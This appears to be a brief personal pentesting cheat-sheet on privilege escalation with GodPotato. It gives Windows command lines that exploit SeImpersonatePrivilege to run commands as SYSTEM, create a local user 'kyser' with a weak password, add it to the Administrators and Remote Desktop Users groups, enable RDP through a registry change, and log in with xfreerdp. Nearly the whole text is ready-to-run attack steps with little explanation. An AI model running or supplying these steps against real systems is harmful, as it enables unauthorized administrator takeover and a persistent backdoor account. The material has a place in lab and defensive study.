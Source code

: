 # GodPotato usage:

with SeImpersonatePrivilege we can use GodPotato.  
  
Source: https://github.com/BeichenDream/GodPotato/tree/main  
  
Get the latest release here and put it on the target machine (I used NET2.exe):  
https://github.com/BeichenDream/GodPotato/releases  
  
  
Now we can create a new user: 
```
.\GodPotato-NET2.exe -cmd "net user kyser password /add"  
```
  
Put them in the Administrators group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup Administrators kyser /add"  
```
  
Put them in the Remote Desktop users Group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup "Remote Desktop Users" kyser /add"  
```
    
And enable RDP with:  
```
.\GodPotato-NET2.exe -cmd 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'  
```

Now log in with the new user like this:
```
xfreerdp /u:kyser /p:password /v:[TARGET-IP]
```
